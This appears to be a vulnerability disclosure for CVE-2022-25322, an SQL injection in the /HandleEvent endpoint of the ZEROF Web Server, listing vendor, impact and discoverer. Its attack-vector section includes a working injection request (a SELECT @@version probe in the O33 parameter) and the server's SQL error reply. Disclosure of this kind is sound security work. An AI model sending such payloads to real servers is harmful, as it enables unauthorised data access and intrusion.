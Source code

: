 # CVE-2022-25322
 
## Suggested description
 ZEROF Web Server February 2022 version /HandleEvent SQL Injection.
 
 ------------------------------------------
 
## Vulnerability Type
 SQL Injection
 
 ------------------------------------------
 
## Vendor of Product
 ZEROF
 
 ------------------------------------------
 
## Affected Product Code Base
 Web Server - February 2022 version
 
 ------------------------------------------
 
## Affected Component
 affected , /HandleEvent Authorization type
 
 ------------------------------------------
 
## Attack Type
 Remote
 
 ------------------------------------------
 
## Impact Code execution
 true
 
 ------------------------------------------
 
## Impact Information Disclosure
 true
 
 ------------------------------------------
 
 ## Discoverer

- Igor Landyrev
- AWILLIX LLC
 
  ------------------------------------------
 
## Attack Vectors
 Example:
 ```
 POST /HandleEvent HTTP/1.1
 
 Ajax=1&IsEvent=1&Obj=O33&Evt=keypress&this=O33&char=%0D&"_fp_=_S_ID=a4424hR14V100423d18&O33=%020%02%02'('--(SELECT%20%40%40version"&_seq_=2&_uo_=O0
 ```
 ```
 HTTP/1.1 200 OK
 
 try{_rsov_(O33,0);}finally{alert("#42000You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the
 right syntax to use near '('--(SELECT @@version')' at line 1.");}
 ```
 ------------------------------------------
 
 [Reference]
 https://awillix.ru
